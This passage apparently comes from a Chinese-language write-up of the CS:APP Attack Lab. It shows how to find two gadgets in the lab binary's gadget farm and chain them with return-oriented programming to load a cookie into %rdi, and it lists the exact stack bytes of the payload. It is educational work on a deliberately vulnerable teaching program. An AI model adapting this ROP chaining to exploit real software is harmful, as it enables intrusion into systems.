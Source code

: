 ```asm
mov    $0x59b997fa,%rdi
```

由 [4.3](#43-解题思路) 节的分析，我们可以将 `0x59b997fa` 先保存在栈中，然后利用 `popq` 指令弹栈传给某个寄存器，此后再利用 `movq`、`movl` 等指令传给 `%rdi` 寄存器。

###### 4.4.1.1 第 1 个 gadget

注意到 gadget farm 中函数 `getval_280` 对应的汇编语句：

```asm
00000000004019ca <getval_280>:
  4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:   c3                      retq
```

其中机器码 `58 90 c3` 对应汇编指令：

```asm
popq   %rax
ret
```

该指令的地址为 `0x4019cc`。

###### 4.4.1.2 第 2 个 gadget

注意到 gadget farm 中函数 `addval_273` 对应的汇编语句：

```asm
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
```

其中机器码 `48 89 c7 c3` 对应汇编指令：

```asm
movq   %rax,%rdi
ret
```

该指令的地址为 `0x4019a2`。

###### 4.4.1.3 整合

于是可改写第 1 句指令为：

```asm
popq   %rax
ret
movq   %rax,%rdi
ret
```

在栈中需要保存的内容为：

```text
cc 19 40 00 00 00 00 00             /* popq   %rax                  */
fa 97 b9 59 00 00 00 00             /* the value of cookie          */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
```
